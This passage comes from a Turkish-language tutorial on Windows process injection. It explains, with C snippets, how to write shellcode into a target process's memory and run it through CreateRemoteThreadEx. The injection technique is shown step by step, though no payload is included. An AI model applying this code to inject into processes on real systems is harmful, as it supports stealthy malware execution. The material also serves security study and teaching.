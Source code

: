 Daha sonra hedef process'in bellek alanında, shellcode'u tutacak bir alan rezerve ediyoruz. Eğer bu işlem başarısız olursa, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

```c
if (!(WriteProcessMemory(HandleProcess, RemoteBuffer, Shellcode, sizeof(Shellcode), 0))) {
    printf("Failed to write dllPath to Allocated Memory Error Code: 0x%lx", GetLastError());
    CloseHandle(HandleProcess);
    return -1;
}
```

Bu kısımda, hedef process'in bellek alanına shellcode'u yazıyoruz. Eğer bu işlem başarısız olursa, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

```c
HandleThread = CreateRemoteThreadEx(HandleProcess, NULL, 0, (LPTHREAD_START_ROUTINE)RemoteBuffer, NULL, 0, 0, 0);
if (HandleThread == NULL) {
    printf("Failed to Create Thread! Error Code: 0x%lx\n", GetLastError());
    CloseHandle(HandleProcess);
    return -1;
}
WaitForSingleObject(HandleThread, INFINITE);
CloseHandle(HandleThread);
CloseHandle(HandleProcess);

return 0;
}
```

Bu kısımda ise hedef process'te yeni bir thread oluşturuyoruz. Bu thread, hedef process'in bellek alanında bulunan shellcode'u çalıştıracaktır. Eğer bu işlem başarısız olursa, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

Son olarak ise WaitForSingleObject aracılığıyla oluşturduğumuz thread'ın bitmesini bekliyoruz ve ardından hedef process'in handle'larını serbest bırakıyoruz.
